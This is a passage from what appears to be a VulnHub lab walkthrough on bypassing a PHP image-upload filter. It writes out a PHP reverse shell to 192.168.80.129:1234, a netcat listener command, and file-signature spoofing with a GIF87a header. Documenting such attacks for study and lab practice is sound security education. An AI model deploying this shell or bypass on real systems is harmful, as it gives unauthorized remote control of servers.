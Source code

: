 The fourth and final check run makes sure that there isn't extra content in the HTML-Content header.

```PHP
if(substr_count($filetype, '/')>1){
    die('Error 003');
}
```

Knowing every check that the server runs through to determine the validity of an image, we can exploit these simple PHP functions to allow us to upload any arbitrary file to the server.   To start lets create our file that we want to upload, in this case its a simple reverse PHP shell that will give us access to the server.

```PHP revshell
<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.80.129/1234 0>&1'");
?>
```

If ran, this will start a remote shell connection to the specified IP on the specified port.  To utilize this we must start listening on this port for the connection, which we can do using netcat.

```Bash
nc -lvnp 1234
 - l = listen
 - v = verbose
 - n = numeric IP only
 - p = specified port (1234)
```

Now that we've started listening, and we have our base file, we can start editing the file to bypass these checks.  To get past the first check is simple, we simply can change the file extension from php to any of the allowed extensions, in our case we'll use gif.

```Bash
mv shell.php shell.gif
```

The second and third checks we can get around by modifying and spoofing the file signature of the file.  This can be done in two ways, there are Kali/Parrot built-ins to hide/mask files inside images, or for this simple check we can just edit the file signature our self.

```bash
GIF87a
<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.80.129/1234 0>&1'");
?>
```

Just by adding GIF87a to the top of our file, when the server checks using `getimagesize()` and the file type from the HTTP request, it will be interpreted as a gif.  This is because adding `GIF87a` to the top of our file changes the first 6 bytes to match the GIF file signature.

> 47 49 46 38 37 61

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\init\signature.png)
